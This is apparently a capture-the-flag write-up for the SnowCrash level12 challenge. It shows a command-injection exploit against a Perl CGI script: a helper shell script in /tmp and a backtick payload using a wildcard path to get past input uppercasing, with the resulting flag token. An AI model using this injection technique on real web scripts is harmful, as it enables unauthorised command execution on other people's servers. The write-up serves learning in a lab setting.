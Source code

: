 ### Exploit

Yet another Perl script with unprotected parameters. Do they ever learn? Yet this time around, we can't simply call getflag through parameter __x__, as the str argument "getflag" is to be transformed in to "GETFLAG" because of this line:
> $xx =~ tr/a-z/A-Z/;



```
    level12@SnowCrash:~$ cat /tmp/TOKEN
    #!/bin/sh
    getflag > /tmp/key
    level12@SnowCrash:~$ ./level12.pl "?x="`/*/TOKEN`""
    /tmp/TOKEN: 2: /tmp/TOKEN: cannot create /tmp/key: Permission denied
    Content-type: text/html

    ..level12@SnowCrash:~$ cat /tmp/key
    Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

The proof is in the pudding...
